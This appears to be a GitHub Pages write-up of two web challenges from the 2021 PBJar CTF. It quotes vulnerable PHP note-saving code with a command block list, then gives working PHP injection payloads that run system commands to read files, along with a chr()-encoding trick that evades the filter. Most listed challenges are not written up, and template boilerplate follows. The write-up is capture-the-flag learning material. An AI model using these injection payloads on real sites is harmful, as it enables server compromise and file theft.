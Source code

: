 # Welcome to my PBJar CTF Writeups for the 2021 PBJar CTF Competition.

## Table of Contents:

### Introduction
### Web
 - ProgrammersHateProgramming
 - ProgrammersHateProgramming2
 - cOrL
### Forensics
 - StegosaurusStenops
 - Polymer
 - Art Mystery
 - Luna Guesser
### Misc
 - Miner
 - MEV
### Crypto
 - ReallynotSecureAlgorithm
 - Convert
### Reversing
 - Polymer

## Introduction

Alrighty, so this is my first writeup for my first ever CTF competition and I thought I did pretty well!
  The team as a whole got 11 flags (not including the obligatory Given flag for getting the discord) and I 
got 6 of those during the time limit. I also went back and got a few flags after time ended just for my own
research purposes. Thank you for checking out my writeups and I hope you enjoy the presentation!

## Web

First off in the web category we have:
## ProgrammersHateProgramming
### Hint: URL of webpage as well as source code

Sourcecode reads:
```
if(isset($_POST["notewrite"]))
{
    $newnote = $_POST["notewrite"];
    $notetoadd = str_replace_first("<?php", "", $newnote);
    $notetoadd = str_replace_first("?>", "", $notetoadd);
    $notetoadd = str_replace_first("<script>", "", $notetoadd);
    $notetoadd = str_replace_first("</script>", "", $notetoadd);
    $notetoadd = str_replace_first("flag", "", $notetoadd);

    $filename = generateRandomString();
    array_push($_SESSION["notes"], "$filename.php");
    file_put_contents("$filename.php", $notetoadd);
    header("location:index.php");
}
```
Just by looking at this sourcecode one can immediatly tell that this webpage is susceptible to php injection attacks.
The webpage had a text input bar that stored notes on the page, which was the main and only interface on the page.
Realizing that it only erased the _first_ value that it catches in the input bar, I immediatly got to work.
I started off sending a simple ```<?php <?php system("ls"); ?> ?>``` to see if it would do anything and it listed the contents
of the current directory, just as expected. As a shot in the dark, I sent ```<?php <?php system("cat /flag.php"); ?> ?>```
and it turned out the flag was at the root directory in a php file!

Flag: flag{server_side_php_xss_is_less_known_but_considering_almost_80%_of_websites_use_php_it_is_good_to_know_thank_me_later_i_dont_want_to_stop_typing_this_flagg_is_getting_long_but_i_feel_like_we're_developing_a_really_meaningful_connection}

## ProgrammersHateProgramming2
### Hint: URL of webpage as well as source code

Sourcecode reads:
```
<?php
if(isset($_POST["notewrite"]))
{
    $newnote = $_POST["notewrite"];
    $notetoadd = str_replace_first("<?php", "", $newnote);
    $notetoadd = str_replace_first("?>", "", $notetoadd);
    $notetoadd = str_replace_first("<?", "", $notetoadd);
    $notetoadd = str_replace_first("flag", "", $notetoadd);

    $notetoadd = str_replace("fopen", "", $notetoadd);
    $notetoadd = str_replace("fread", "", $notetoadd);
    $notetoadd = str_replace("file_get_contents", "", $notetoadd);
    $notetoadd = str_replace("fgets", "", $notetoadd);
    $notetoadd = str_replace("cat", "", $notetoadd);
    $notetoadd = str_replace("strings", "", $notetoadd);
    $notetoadd = str_replace("less", "", $notetoadd);
    $notetoadd = str_replace("more", "", $notetoadd);
    $notetoadd = str_replace("head", "", $notetoadd);
    $notetoadd = str_replace("tail", "", $notetoadd);
    $notetoadd = str_replace("dd", "", $notetoadd);
    $notetoadd = str_replace("cut", "", $notetoadd);
    $notetoadd = str_replace("grep", "", $notetoadd);
    $notetoadd = str_replace("tac", "", $notetoadd);
    $notetoadd = str_replace("awk", "", $notetoadd);
    $notetoadd = str_replace("sed", "", $notetoadd);
    $notetoadd = str_replace("read", "", $notetoadd);
    $notetoadd = str_replace("ls", "", $notetoadd);
    $notetoadd = str_replace("ZeroDayTea is not hot", "", $notetoadd);

    $filename = generateRandomString();
    file_put_contents("$filename.php", $notetoadd);
    header("location:index.php");
}
?>
```
This webpage again has an input section that stores the input values on the server.
As one can see, this problem is very similar to the previous problem, however the web page catches a much wider range
of inputs. To get around this, I simply sent the code I needed into the input text box as ascii values. To do this, I
wrote code that would do it for me :)
```
instr = input("> ")

for c in instr:
    print("chr({}) . ".format(ord(c)), end="")

print()
```
This code takes input values and returns them as a string of ascii values.

since the sourcecode removes ```flag``` after removing ```<?php```, I had it create ```<?php``` by putting ```flag```
inside of ```<?php``` so: ```<flag?php```

I then tested if the ascii solution would work by sending:
```<flag?php system("chr(108) . chr(115) . chr(32) . chr(45) . chr(97) . chr(108) . chr(32) . chr(47)") ?> ?>```
(ls -al /)
which printed the list of files in the directory. After that I attempted to ```cat /flag.php``` like I did in 
ProgrammersHateProgramming:
```<flag?php system("chr(99) . chr(97) . chr(116) . chr(32) . chr(47) . chr(102) . chr(108) . chr(97) . chr(103) . chr(46) . chr(112) . chr(104) . chr(112)") ?> ?>```
which got us the flag!

Flag:
flag{wow_that_was_a_lot_of_filters_anyways_how_about_that_meaningful_connection_i_mentioned_earlier_:)}

## Welcome to GitHub Pages

You can use the [editor on GitHub](https://github.com/Reycecar/PBJarCTFWriteups2021/edit/main/README.md) to maintain and preview the content for your website in Markdown files.

Whenever you commit to this repository, GitHub Pages will run [Jekyll](https://jekyllrb.com/) to rebuild the pages in your site, from the content in your Markdown files.

### Markdown

Markdown is a lightweight and easy-to-use syntax for styling your writing. It includes conventions for

```markdown
Syntax highlighted code block

# Header 1
## Header 2
### Header 3

- Bulleted
- List

1. Numbered
2. List

**Bold** and _Italic_ and `Code` text

[Link](url) and ![Image](src)
```
